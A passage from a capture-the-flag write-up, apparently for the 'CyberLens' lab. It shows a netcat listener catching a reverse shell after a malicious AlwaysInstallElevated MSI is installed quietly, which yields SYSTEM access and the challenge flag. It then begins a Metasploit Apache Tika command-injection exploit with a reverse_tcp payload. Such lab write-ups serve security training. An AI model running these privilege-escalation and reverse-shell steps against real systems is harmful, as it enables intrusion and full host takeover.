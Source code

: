 Now we setup our listener on the port we enter in the [Payload](../../3%20-%20Tags/Hacking%20Concepts/Payload.md) with [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) :

```
┌──(mdn0x㉿mdn0xKali)-[~/…/CHALLENGES/Easy/Cybelens/web-server]
└─$ nc -lvnp 4444  

```

And we execute it (the syntax is on the hacking articles site) :

```
C:\Users\CyberLens\Desktop>msiexec /quiet /qn /i AlwaysInstallElevated.msi 
```

And we have it :

```
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Easy/Cybelens]
└─$ nc -lvnp 4444 
listening on [any] 4444 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.60.241] 49913
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

```

We can search for the root flag :

```
C:\Users\Administrator\Desktop>type admin.txt
type admin.txt
THM{3lev@t3D-4-pr1v35c!}
```

# Second Method - Metasploit

We can open the [Metasploit](../../3%20-%20Tags/Hacking%20Tools/Metasploit.md) console with `msfconsole -q` .

We search for apache tika and use that :

```
┌──(mdn0x㉿mdn0xKali)-[~/…/CHALLENGES/Easy/Cybelens/web-server]
└─$ msfconsole -q
msf6 > search apache tika

Matching Modules
================

   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/windows/http/apache_tika_jp2_jscript  2018-04-25       excellent  Yes    Apache Tika Header Command Injection


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/apache_tika_jp2_jscript

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/apache_tika_jp2_jscript) > 

```

